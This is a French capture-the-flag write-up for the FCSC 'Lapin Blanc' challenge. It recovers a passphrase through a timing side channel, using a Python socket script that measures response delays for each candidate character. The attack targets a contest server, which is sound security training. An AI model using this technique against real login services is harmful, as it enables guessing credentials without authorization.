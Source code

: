 # Side Channel and Fault Attacks - Lapin Blanc

## Challenge description

![Challenge description](./imgs/desc_lapin_blanc.PNG)

## Résolution

Le principe des challenges types "side channel / fault attacks" est d'utiliser des moyens indirects pour récupérer de l'information. La première étape va donc être de jouer un peu avec le serveur pour voir ce qu'on peut faire. On se connecte donc au serveur avec netcat :

![Connexion](./imgs/connexion_initiale.PNG)

On teste quelques mots de passes, et on cherche ce qui pourrai être exploitable. On remarque que le serveur envoie toujours un chiffre avec un message, un peu comme il enverrai l'heure. On va donc supposer que c'est une sorte de mesure du temps de calcul.

A l'aide d'un script python, on va tester cette possibilité : on suppose que si le serveur compare le mot de passe entré avec le vrai mot de passe lettre par lettre, alors il va mettre plus de temps si la première lettre est bonne. On va tester tout les charactère qui pourraient être dans le mot de passe, et voir si on observe une différence notable de temps. 

Le temps pour une être va donc être `[temps affiché à la réponse]-[temps affiché pour le début de la reflexion]`.

A l'aide de ce script, on teste les lettres de l'alphabet, et la ponctuation :

```python
# nc challenges.france-cybersecurity-challenge.fr 2350

import socket
import time
import string

HOST = 'challenges.france-cybersecurity-challenge.fr'
PORT = 2350

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((HOST, PORT))
print( 'Connexion vers ' + HOST + ':' + str(PORT) + ' reussie.')

def recv_bis(clientt, printout=True, size=4096):
       data = clientt.recv(size)
       datastr =data.decode("utf-8")
       if printout : print(datastr, end="")
       return datastr

def send_check(clientt, msg):
    #print(msg+"\n")
    n = clientt.send((msg+"\n").encode("utf-8"))
    if (n != len((msg+"\n"))):
            print( 'Erreur envoi.')

def test(clienttest, val):
      print(val)
      send_check(clienttest, val)
      time.sleep(0.18)
      doorthink = recv_bis(clienttest)
      time_one = doorthink.split(" ")[0]
      time_one = time_one[1:-1]
      time_end = doorthink.split(" ")[4]
      time_end = (time_end.split("[")[-1])[:-1]
      print(time_end, time_one)
      return int(time_end)-int(time_one)

time.sleep(3)
recv_bis(client)

possible = list(string.ascii_letters + string.punctuation + string.digits + " ")
print(possible)
passphrase = dict()

for let in possible :
    mytest = ""+let
    val = test(client, mytest)
    passphrase[mytest]=val

print(passphrase)
max_time = max(passphrase.values())
print("for the letters : ", [key for key, value in passphrase.items() if value == max_time])

print( 'Deconnexion.')
client.close()
```

![Résultat](./imgs/lapin_blanc_1_lettre.PNG)

On voit que I est la lettre avec le plus haut temps de reflexion. On suppose donc que c'est bien une sorte de calcul du temps, et qu'on peut donc retrouver toutes les lettres suivantes de la même façon. On va tester au fur et à mesure avec une lettre en plus a chaque fois, et on va retrouver la phrase : *"I'm late, I'm late! For a very important date!"*. On obtient alors ~~le flag qu'on submit plus vite que lucky luke parce que le fcsc se termine dans littéralement 30s~~ :

![Flag](./imgs/lapin_blanc_flag.PNG)